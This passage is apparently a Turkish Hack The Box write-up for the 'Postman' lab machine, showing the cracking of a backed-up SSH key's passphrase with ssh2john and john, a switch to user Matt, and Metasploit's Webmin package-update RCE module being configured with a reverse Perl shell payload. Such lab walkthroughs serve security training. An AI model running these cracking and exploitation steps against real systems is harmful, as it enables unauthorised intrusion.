 ```sh
-----END RSA PRIVATE KEY-----
redis@Postman:/opt$ 
```
 Matt kullanıcısına ait private key dosyasının backup hali karşımıza çıktı ve ilgili dosyaya john ile brute-force yaparak parolayı elde edebileceğiz.

İlk olarak id_rsa.bak dosyasının hash'ini almamız gerekiyor ;
```sh
root@kali:~/Desktop/htb-machines/payloads# python ssh2john.py id_rsa.bak > RSA.hash
```
Sonrasında john ile brute-force işlemimizi başlatıyoruz ; 
```sh
root@kali:~/Desktop# john --wordlist=rockyou.txt RSA.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
```
Matt kullanıcısına ait parola 'computer2008' olarak karşımıza çıkıyor bu noktada redis kullanısından Matt kullanıcısına geçiyoruz ; 
```sh
redis@Postman:/home$ cd Matt/
redis@Postman:/home/Matt$ ls
user.txt
redis@Postman:/home/Matt$ su Matt
Password: 
Matt@Postman:~$ cat user.txt 
517ad*******************
```
Root olabilmek adına , nmap'te diğer bir dikkat çekici nokta olan 10000 portunda çalışan webmin'e gidiyoruz, ilgili sayfada klasik bir login ekranı bizi karşılarken kaynak kod içerisinde ; 
```
data-title-initial="Webmin 1.910 (Ubuntu Linux 18.04.3)"
```
Webmin versiyonunu tespit ediyoruz.Ufak bir google araştırması sonucunda ; 
https://www.exploit-db.com/exploits/46984 
root için gerekli olan exploit'i elde etmiş oluyoruz.Exploit bizden bir takım credential'ları istiyor.(username:password) Webmin Login sayfasında elde ettiğimiz Matt kullanıcısına ait bilgiler ile login olup olamadığımızı bu aşamada kontrol ediyoruz ve başarılı bir sonuç alıyoruz.İlgili exploit modülünü Metasploit-Framework yardımıyla çalıştırıyoruz ; 
```sh
msf5 exploit(linux/http/webmin_packageup_rce) > options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):
```